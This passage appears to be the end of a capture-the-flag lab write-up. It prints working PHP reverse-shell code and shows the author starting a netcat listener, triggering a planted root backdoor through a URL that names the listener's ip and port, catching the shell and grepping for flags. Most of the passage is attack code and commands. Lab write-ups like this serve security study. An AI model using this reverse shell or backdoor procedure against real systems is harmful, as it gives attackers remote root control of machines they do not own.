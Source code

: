 ```shell
chdir("/"); umask(0);  
$sock = fsockopen($ip, $port, $errno, $errstr, 30);  
if(!$sock) die("couldn't open socket");  
  
$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));  
$proc = proc_open($shell, $fdspec, $pipes);  
  
if(!is_resource($proc)) die();  
  
for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);  
stream_set_blocking($sock, 0);  
  
while(1)  
{  
   if(feof($sock) || feof($pipes[1])) break;  
   $read_a = array($sock, $pipes[1], $pipes[2]);  
   $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);  
   if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }  
   if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }  
   if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }  
}  
  
fclose($sock);  
for($x=0;$x<=2;$x++) fclose($pipes[x]);  
proc_close($proc);  
?>
```
To connect as root using this script I first start my netcat listener `nc -lvp 4444`. 

I then need to navigate to `http://10.10.62.109/redacted/VIGQFQFMYOST.php` and supply the password from the script.

I login and see this:
```text
snodew reverse root shell backdoor

Usage:
Locally: nc -vlp [port]  
Remote: 10.10.62.109/redacted/VIGQFQFMYOST.php?ip=[destination of listener]&port=[listening port]
```

I catch the shell, stabalize it, and get the remaining 2 flags at `/root/root.flag`, and find the last one with `grep -ri "flag{" /etc 2>/dev/null`. The end!

___
